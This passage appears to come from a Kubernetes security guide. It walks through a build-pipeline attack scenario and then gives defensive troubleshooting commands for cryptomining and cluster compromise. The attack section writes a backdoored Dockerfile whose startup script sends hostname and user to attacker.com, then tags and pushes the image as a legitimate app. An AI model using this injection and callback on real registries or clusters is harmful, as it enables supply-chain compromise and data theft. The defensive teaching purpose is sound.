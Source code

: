 ### Scenario 2: Build Pipeline with Malicious Image Injection

#### Attack: Compromise Build Process
```bash
# Inside the compromised DIND container
# Build malicious image that gets pushed to registry
cat > Dockerfile << 'EOF'
FROM alpine:latest
RUN apk add --no-cache curl
# Add backdoor that runs on container start
RUN echo '#!/bin/sh\ncurl -X POST http://attacker.com/callback -d "$(hostname):$(whoami)"' > /backdoor.sh
RUN chmod +x /backdoor.sh
ENTRYPOINT ["/backdoor.sh"]
EOF

# Build and tag as legitimate image
docker build -t legitimate-app:latest .

# Push to registry (if credentials are available)
docker push registry.company.com/legitimate-app:latest

# The malicious image will now be deployed across the cluster
```

## Troubleshooting Scenarios: "What happens when this breaks at 2AM?"

### Crisis Scenario 1: Cryptocurrency Mining Detection
```bash
# Symptoms: High CPU usage, unusual network traffic
kubectl top nodes
kubectl top pods --all-namespaces

# Investigation: Look for mining indicators
kubectl get pods --all-namespaces -o jsonpath='{range .items[*]}{.metadata.name}{"\t"}{.spec.containers[*].image}{"\n"}{end}' | grep -i "mine\|crypto\|xmr"

# Check for privileged containers
kubectl get pods --all-namespaces -o jsonpath='{range .items[*]}{.metadata.name}{"\t"}{.spec.containers[*].securityContext.privileged}{"\n"}{end}' | grep true

# Immediate response: Scale down suspicious workloads
kubectl scale deployment suspicious-deployment --replicas=0

# Forensics: Check for Docker socket mounts
kubectl get pods --all-namespaces -o yaml | grep -A 5 -B 5 "docker.sock"
```

### Crisis Scenario 2: Cluster-Wide Compromise
```bash
# Detection: Unusual administrative activity
kubectl get events --sort-by=.metadata.creationTimestamp | grep -i "privileged\|hostpath\|docker"

# Emergency response: Isolate affected nodes
kubectl cordon <compromised-node>
kubectl drain <compromised-node> --ignore-daemonsets --delete-emptydir-data

# Investigation: Check for persistent threats
# On the compromised node:
sudo docker ps -a | grep -v "k8s_POD"
sudo crontab -l
```